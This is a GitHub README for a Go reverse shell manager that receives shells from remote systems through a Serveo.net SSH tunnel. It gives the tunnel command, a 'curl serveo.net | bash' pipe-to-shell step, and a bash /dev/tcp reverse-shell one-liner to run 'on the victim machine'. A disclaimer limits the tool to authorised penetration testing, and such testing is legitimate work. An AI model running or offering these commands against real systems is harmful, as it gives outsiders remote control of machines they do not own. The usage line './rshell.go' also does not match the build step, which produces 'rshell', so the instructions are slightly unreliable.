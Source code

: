 **Go Reverse Shell Manager using Serveo.net**

This is a lightweight reverse shell manager written in Go that leverages [Serveo.net](https://serveo.net) to expose a local port to the internet and receive reverse shells from remote systems. Serveo acts as an SSH-based tunneling service, making it easy to get incoming connections without setting up port forwarding or cloud servers.

### ✦ Features:

* Automatically sets up a Serveo.net tunnel via SSH.
* Listens for incoming reverse shell connections.
* Simple command-line interface.
* Supports multiple sessions (basic).

### ✦ How It Works:

1. The tool opens an SSH tunnel to Serveo.net (e.g., `ssh -R 80:localhost:4444 serveo.net`).
2. The public Serveo subdomain forwards traffic to your local listener port.
3. A remote system connects to the public Serveo address (e.g., `curl serveo.net | bash`).
4. The Go program accepts and manages the reverse shell session.


### 🛠 Build 

```bash
go build rshell.go
```

This command creates an executable file named `rshell`.

### ✦ Example Usage:

```bash
./rshell.go
```

Then on the victim machine:

```bash
bash -c '(exec bash -i &>/dev/tcp/serveo.net/4000 0>&1) &'
```


## ⚠️ Disclaimer
This tool is intended for educational and authorized penetration testing purposes only. Unauthorized access to systems you do not own or have permission to test is illegal and unethical.

**👨‍💻Author:** [İbrahimsql on GitHub](https://github.com/ibrahmsql) ・ [X / Twitter](https://x.com/ibrahimsql)


